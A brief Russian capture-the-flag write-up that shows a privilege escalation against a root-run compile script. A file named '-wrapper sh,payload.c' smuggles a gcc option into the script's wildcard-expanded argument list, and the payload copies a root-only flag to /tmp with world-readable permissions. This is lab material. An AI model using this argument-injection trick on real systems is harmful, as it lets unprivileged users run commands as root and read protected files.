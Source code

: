 находим скрипт /top/compile.sh
```
#!/bin/bash
 cd /home/user/src
  gcc $(ls -- *.c) -o /bin/hello
```
в директории /home/user/src создаем файл с помощью 
```
touch -- '-wrapper sh,payload.c'
```
в файл payload.c записывает нагрузку 
```
#!/bin/bash 

cp /root/flag /tmp
chmod 777 /tmp/flag
```
выдаем права на файл payload.c и забираем флаг из директории/tmp